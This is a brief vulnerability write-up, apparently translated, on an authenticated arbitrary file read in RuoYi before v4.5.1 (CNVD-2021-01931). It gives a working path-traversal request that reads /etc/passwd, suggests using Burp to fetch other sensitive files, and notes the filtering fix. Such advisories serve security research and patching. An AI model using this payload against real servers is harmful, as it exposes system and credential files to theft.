 # Read any file in the background according to the management system CNVD-2021-01931

## Vulnerability Description

If the management system is based on SpringBoot's permission management system, you can read any file on the server after logging in to the background.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">RuoYi < v4.5.1</span>

## Network surveying and mapping



## Vulnerability reappears

Log in to the background to access Url

```shell
/common/download/resource?resource=/profile/../../../../etc/passwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/ruoyi-1.png)



The file will be downloaded after accessing `/etc/passwd`



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/ruoyi-2.png)



You can use Burp to grab packets to change `/etc/passwd` to obtain sensitive information for other file paths

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/ruoyi-4.png)



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/ruoyi-5.png)



Added filtering in new version fix

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/ruoyi-7.png)